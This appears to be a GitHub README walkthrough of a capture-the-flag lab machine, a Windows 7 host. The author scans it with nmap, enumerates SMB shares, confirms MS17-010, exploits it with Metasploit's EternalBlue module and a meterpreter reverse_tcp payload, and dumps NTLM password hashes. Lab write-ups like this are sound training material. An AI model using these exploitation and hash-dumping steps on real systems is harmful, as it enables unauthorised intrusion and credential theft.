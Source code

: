 # New-Capstone-Lab-Blue-Machine-

<h2>**IP Address provided: 10.0.2.5**</h2>

This repository provides a comprehensive guide to the Blue Machine which is a Capture the Flag (CTF) challenge designed to test your skills in network scanning, web application testing, password cracking, privilege escalation, and system exploitation. This machine provides an opportunity to utilise a variety of tools and techniques commonly used in real-world penetration testing. You will encounter a combination of web-based vulnerabilities, system misconfigurations, and network-related challenges.

### Features:
- Metasploit (Framework)
Metasploit is a penetration testing framework that helps security professionals identify and exploit vulnerabilities in networks, systems, and applications

### Prerequisites:
Before starting the Academy Machine challenge, it is recommended to have basic knowledge and hands-on experience with the following tools and concepts:

- Metasploit

<h2>Environments Used </h2>

- <b>Linux</b>
- <b>Windows</b>

<h2>Walk-through:</h2>

Started out by using Nmap to dearch for open ports on the target 10.0.2.5

nmap -A -p- -T4 10.0.2.5

![image](https://github.com/user-attachments/assets/801f2eaf-bd8b-466e-aa1c-920ccb0aa0c0)

I can see that port 139 tcp netbios-ssn Microsoft Windows netbios-ssn is open  
I can also see that port 445 tcp Windows 7 Ultimate 7601 Service Pack 1 Microsoft-ds (workgroup: WORKGROUP)

I will research the exploits for both of these.

**Port 139**  
NetBIOS stands for Network Basic Input Output System. It is a software protocol that allows applications, PCs, and Desktops on a local area network (LAN) to communicate with network hardware and to transmit data across the network. Software applications that run on a NetBIOS network locate and identify each other via their NetBIOS names. A NetBIOS name is up to 16 characters long and usually, separate from the computer name. Two applications start a NetBIOS session when one (the client) sends a command to “call” another client (the server) over TCP Port 139

**Port 445**  
While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. SMB stands for ‘Server Message Blocks’. Server Message Block in modern language is also known as Common Internet File System. The system operates as an application-layer network protocol primarily used for offering shared access to files, printers, serial ports, and other sorts of communications between nodes on a network.  
For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use, as you point out, port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP**.**

I decided to attempt port 445 first as this was the one that stood out the most to me.

I listed the SMB shares using smbclient -L 10.0.2.5 and was asked for a password, i hit enter and ws able to view the share names.

I tried accessing admin with no password.  
smbclient \\10.0.2.5\ADMIN$  
Password for [WORKGROUP\kali]:  
tree connect failed: NT_STATUS_ACCESS_DENIED

I tried accessing C$ with no password.  
smbclient \\10.0.2.5\C$  
Password for [WORKGROUP\kali]:  
tree connect failed: NT_STATUS_ACCESS_DENIED

I was able to access IPC$ with no password.  
smbclient \\10.0.2.5\IPC$  
Password for [WORKGROUP\kali]:  
Try "help" to get a list of possible commands.

i tried ls  
smb: > ls  
NT_STATUS_INVALID_PARAMETER listing *

Further information gathering found this port 445 has an exploit called eternal blue.

![image](https://github.com/user-attachments/assets/6e6eb516-bddf-47bd-92a7-74d113102505)

Using Metasploit i searched for eternal blue and a few come up, i decided to use an auxiliary to start off with as this will be a check before launching an attack.

Unfortunately my windows lab crashed so i received connection time out.

Restarted the windows lab and retested.

msfconsole reloaded and ran search for eternal blue

![image](https://github.com/user-attachments/assets/2383d7df-56ef-40d7-acfb-d13f890170ec)

used no 1 (use 1)  
options  
set RHOSTS to IP Address of the machine scanning.  
Run the scan against the machine.

[+] 10.0.2.5:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)  
[*] 10.0.2.5:445 - Scanned 1 of 1 hosts (100% complete)  
[*] Auxiliary module execution completed

Now we have confirmed that the system is vulnerable to eternal blue we look at what exploits are available.  
search eternal blue to bring up the menu again.  
no 3 looks promising so we will use this one as the other says win8 and we know its a windows 7 machine.

use 3  
options  
set rhosts to IP Address  
this module has a check feature so lets check it.

Type check and enter  
msf6 exploit(windows/smb/ms17_010_eternalblue) > check

[*] 10.0.2.5:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check  
[+] 10.0.2.5:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)  
[*] 10.0.2.5:445 - Scanned 1 of 1 hosts (100% complete)  
[+] 10.0.2.5:445 - The target is vulnerable.

This shows the same as the scanner so we know this should work.

So we now need to set a payload.

We know from the previous scans that this machine is 64 bit and sometimes payloads are set to 32bit so we need to be on the safe side and set the payload to 64bit.  
we are also going to use a meterpreter shell as we want a nice interface and we are going to set a reverse-tcp

Type in options.  
Set LHOST to eth0 or your IP Address.

RUN this

![image](https://github.com/user-attachments/assets/50d7aa97-413b-4d8f-a12a-e72c4bcc4642)

set payload windows/x64/meterpreter/reverse_tcp

Run  
This will run through trying to access, sometimes it wont happen the first time so give another go. Mine worked first time which was great.

Sorry, my screenshot wouldnt work so i took a picture of the screen.

![image](https://github.com/user-attachments/assets/459ae81b-4061-4093-a6d7-d429950a640d)

Eternal Blue has been out for sometime now but is still successful in infiltrating machines that have not been updated or cant be updated.

Type in Hashdump.

meterpreter > hashdump  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:f580a1940b1f6759fbdd9f5c482ccdbb:::  
user:1000:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

Now we have the hashes for the Administrator, Guest, Home Group and User:1000.

We can use this to try and crack it, we can use pass the hash etc.




